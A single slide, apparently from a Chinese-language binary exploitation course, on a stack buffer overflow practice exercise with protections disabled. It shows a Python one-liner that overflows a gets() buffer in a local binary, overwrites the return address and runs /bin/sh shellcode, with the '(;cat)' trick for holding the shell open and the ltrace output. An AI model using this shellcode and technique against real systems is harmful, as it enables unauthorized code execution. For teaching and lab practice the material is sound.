

62￼
練習(no ASLR, no NX)
找出溢出點
使用shellcode
Get shell
trick:(;cat)可以keep住io，因使用shellcode拿到的io在正常情況下會直接被close。
成功執行到shellcode
root@Ubuntu : tmp ➤ (python -c "print 'a'*13+'\x80\xd5\xff\xff'+'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'";cat)|ltrace -if ./easy
[pid 9953] [0x8048331] __libc_start_main(0x8048427, 1, 0xffffd634, 0x8048450 <unfinished ...>
[pid 9953] [0x804841d] gets(0xffffd56f, 0xf7fc2000, 0xf7fc0244, 0xf7e280ec) = 0xffffd56f
[pid 9953] [0xf7dd7c30] --- Called exec() ---

62￼